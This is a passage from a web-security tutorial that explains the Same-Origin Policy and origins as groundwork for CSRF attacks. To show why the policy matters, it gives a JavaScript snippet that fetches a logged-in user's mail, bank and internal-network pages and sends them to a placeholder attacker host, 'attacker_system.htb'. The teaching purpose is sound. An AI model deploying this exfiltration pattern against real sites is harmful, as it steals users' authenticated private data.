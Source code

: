 # Same-Origin Policy & CORS

To fully understand defenses against CSRF attacks and how to bypass them, we first need to discuss the Same-Origin Policy and Cross-Origin Resource Sharing (CORS).

## What is the Same-Origin Policy?

The Same-Origin policy is a security mechanism implemented in web browsers to prevent cross-origin access to websites. In particular, JavaScript code running on one origin cannot access a different origin. This prevents a malicious site from exfiltrating information from other origins and restricts the type of requests it can make to other origins.

The origin (refer to RFC 6454 for more on the concept) is defined as the scheme, host, and port of a URL. The Same-Origin policy applies whenever two URLs differ in at least one of these three properties. For instance, an `http` site and an `https` site have different origins due to the difference in scheme. Furthermore, `https://academy.hackthebox.com` and `https://hackthebox.com` also have different origins due to the difference in hosts. On the other hand, `https://hackthebox.com` and `https://hackthebox.com:443` share the same origin, as the scheme, host, and port match (the default port of https is 443).

Given that web browsers implement the Same-Origin policy, vulnerabilities and bugs within their software can lead to bypasses, resulting in potentially high-severity security vulnerabilities.

### Without the Same-Origin Policy

To understand why the Same-Origin policy is crucial to web security, let us imagine a scenario where it does not exist.

Assume that upon visiting the malicious website `https://exploitationserver.htb` on our private laptop in our home network, it executes the following JavaScript code:

```html
<script>
    async function exfiltrate_data(url) {
        // get data
        const response = await fetch(url, {credentials: "include"});
        const data = await response.text();

        // exfiltrate data
        await fetch("https://attacker_system.htb/exfiltrate?c=" + btoa(data));
    }

    // exfiltrate mails
    exfiltrate_data("https://mymails.htb/getmails");

    // exfiltrate bank data
    exfiltrate_data("https://mybank.htb/myaccounts");

    // exfiltrate internal service
    exfiltrate_data("https://192.168.178.5/");
</script>
```
The JavaScript code on `https://exploitationserver.htb` makes three fetch requests to `https://mymails.htb/getmails`, `https://mybank.htb/myaccounts`, and `https://192.168.178.5/` from our browser. If we are logged in to any of these sites, our browser will potentially send our session cookies along with these requests, depending on the SameSite cookie configuration. This makes these requests authenticated. The JavaScript code then exfiltrates the response by sending it back to the attacker controlled system at `https://attacker_system.htb/exfiltrate`. This way, the attacker running `https://attacker_system.htb` obtains the response to the three authenticated GET requests from our user account, enabling the attacker to access our emails on `https://mymails.htb`, our bank details and account balance on `https://mybank.htb`, and even our wiki running in our home internal network on `https://192.168.178.5` (which is not publicly accessible but can only be reached from the local network).
